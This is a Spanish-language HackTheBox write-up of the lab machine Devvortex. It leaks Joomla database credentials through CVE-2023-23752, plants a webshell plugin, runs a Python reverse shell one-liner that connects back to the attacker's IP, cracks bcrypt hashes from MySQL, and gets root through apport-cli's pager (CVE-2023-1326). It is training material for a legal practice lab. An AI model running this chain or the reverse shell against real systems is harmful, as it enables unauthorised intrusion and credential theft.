


+++
title = "HackTheBox - Devvortex"
draft = false
description = "Resolución de la máquina Devvortex"
summary = "OS: Linux | Dificultad: Easy | Conceptos: Joomla, CVE Público, MySQL, Pager privesc."
tags = ["HTB", "Linux", "Easy", "Joomla", "CVE", "DB", "Pager privesc"]
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2025-11-09T00:00:00"
+++

* Dificultad: `easy`
* Tiempo aprox. `~4h`
* **Datos Iniciales**: `10.10.11.242`

## Análisis Inicial

Iniciamos con un scan nmap:

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Añadimos `devvortex.htb` a `/etc/hosts`.

### **Puerto 80**

Encontramos una página web con varias pestañas disponibles, tras analizarlas, no encuentro nada relevante en ninguna. No parece haber lugares que tomen input de usuario ni parámetros en las solicitudes, por lo que decido centrarme en otro punto.

Hacemos un análisis de VHosts:

```shell
$ gobuster vhost --url devvortex.htb -w /usr/share/wordlists/n0kovo_subdomains_medium.txt --append-domain
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
dev.devvortex.htb Status: 200 [Size: 23221]
```

## Subdominio `dev.devvortex.htb`

Al entrar en el subdominio, encuentro otra sola página sin más.

Tras hacer fuerza bruta con feroxbuster filtrando aquello a lo que no pudiese acceder:

```shell
feroxbuster -u http://dev.devvortex.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -o dev.devvortex_dir_bruteforce --filter-status=403,502,404 -r

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0

502      GET        7l       12w      166c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        2w       31c http://dev.devvortex.htb/components/
200      GET        1l        2w       31c http://dev.devvortex.htb/libraries/
200      GET        1l        2w       31c http://dev.devvortex.htb/modules/
200      GET        1l        2w       31c http://dev.devvortex.htb/tmp/
200      GET        1l        2w       31c http://dev.devvortex.htb/cli/
200      GET        1l        2w       31c http://dev.devvortex.htb/plugins/
200      GET        1l        2w       31c http://dev.devvortex.htb/language/
200      GET        1l        2w       31c http://dev.devvortex.htb/includes/
200      GET        1l        2w       31c http://dev.devvortex.htb/cache/
200      GET        1l        2w       31c http://dev.devvortex.htb/layouts/
200      GET        1l        2w       31c http://dev.devvortex.htb/images/
200      GET        1l        2w       31c http://dev.devvortex.htb/templates/
200      GET        1l        2w       31c http://dev.devvortex.htb/media/
200      GET        1l        2w       31c http://dev.devvortex.htb/media/cache/
200      GET        1l        2w       31c http://dev.devvortex.htb/administrator/logs/
[####################] - 14m  12350535/12350535 0s      found:15      errors:11862898
```

Mirando en cada una de ellas no parece haber nada relevante en ninguna. Desde `robots.txt` veo algo muy similar:

```
User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

En `/administrator` encuentro un panel de login de administrador, en el que se ve que el CMS en uso es Joomla:&#x20;



En ninguno de los dos casos anteriores encuentro recursos relevantes ni siquiera para poder enumerar la versión del CMS. Tras una [búsqueda en internet](https://hackertarget.com/attacking-enumerating-joomla/), encuentro que es posible que la versión se encuentre en `/administrator/manifests/files/joomla.xml`.

Y al comprobarlo:&#x20;



De aquí podemos ver varias cosas interesantes:

* La versión: `4.2.6`, que tiene una vulnerabilidad de [**Unauthenticated information disclosure**](https://www.exploit-db.com/exploits/51334) (CVE-2023-23752)
* La URL de **2 bases de datos** en el servidor (relacionadas con el CVE anterior)

Y usando [un exploit](https://github.com/Acceis/exploit-CVE-2023-23752) que automatiza el acceso a las bases de datos:

```shell
ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Con las credenciales `lewis`:`P4ntherg0t1n5r3c0n##` iniciamos sesión en el panel de administrador.

## Reverse shell

Ya en el panel de administrador, intuyo que será necesario instalar un módulo o extensión que nos proporcione un reverse shell, por suerte ya había [un webshell interactivo disponible](https://github.com/p0dalirius/Joomla-webshell-plugin).

```shell
./console.py -t http://dev.devvortex.htb
[webshell]> whoami
www-data
```

Para poder tener mejor acceso, ejecuto un reverse shell en python3:

```shell
[webshell]> export RHOST="10.10.14.20";export RPORT=4321;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Y mientras en ncat:

```shell
ncat -lvn 10.10.14.20 4321
Ncat: Listening on 10.10.14.20:4321
Ncat: Connection from 10.10.11.242:39742.
$ 
```

Una vez dentro, intento conseguir el flag de usuario (podría haberlo hecho directamente desde el webshell):

```shell
$ ls -al user.txt
ls -al user.txt
-rw-r----- 1 root logan 33 Nov  8 20:42 user.txt
$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

Desgraciadamente, no podemos acceder a él, necesitaremos ser el usuario `logan`, por suerte todavía podemos conectarnos a MySQL:

```shell
mysql -u lewis -pP4ntherg0t1n5r3c0n##
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> 

```

Y desde ahí buscar las credenciales del usuario `logan`, que están en la tabla `sd4fg_users`:

```
mysql> select id, username, password from sd4fg_users;
select id, username, password from sd4fg_users;
+-----+----------+--------------------------------------------------------------+
| id  | username | password                                                     |
+-----+----------+--------------------------------------------------------------+
| 649 | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| 650 | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+-----+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Y crackeamos la contraseña:

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt                                           2 ↵
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
tequieromucho    (?)     
Session completed. 
```

## Acceso como **`logan`**

Al probar a hacer ssh:

```shell
ssh logan@devvortex.htb
logan@devvortex.htb's password: tequieromucho
logan@devvortex:~$ 
```

> Por suerte y por desgracia, la contraseña era tan fácil (La nº1403 en rockyou.txt) que podríamos haberla sacado con hydra desde el principio si hubiésemos esperado, aunque no sería lo común empezar con fuerza bruta.

Desde el shell de `logan` ejecutamos `sudo -l`:

```shell
logan@devvortex:~$ sudo -l
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli

logan@devvortex:~$ sudo apport-cli -v
2.20.11
```

`apport-cli` es una aplicación de troubleshooting de sistemas Linux. Esta versión específica tiene una vulnerabilidad (CVE-2023-1326) que hace que, al producir un reporte de un bug y mostrarlo en pantalla, se haga uso del paginador (generalmente `less`).

Esto en sí no es peligroso, pero si se ejecuta `apport-cli` como root, todos sus subprocesos se ejecutarán como root, entre ellos `less`, y, por tanto, si durante la ejecución de `less` el usuario escribe `!<comando>` (una funcionalidad incluida por defecto en `less`), ese `<comando>` se ejecutará como root.

Dicho esto, generamos un reporte:

```shell
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug
*** What kind of problem do you want to report?

Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 5
*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
```

Una vez hecho el reporte:

```shell
What would you like to do? Your options are:
  S: Send report (88.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```

Se abrirá el reporte con `less` como paginador, para el que pulsamos `!` y escribimos `/bin/bash`, y finalmente tenemos root:

```shell
root@devvortex:/home/logan# 
```
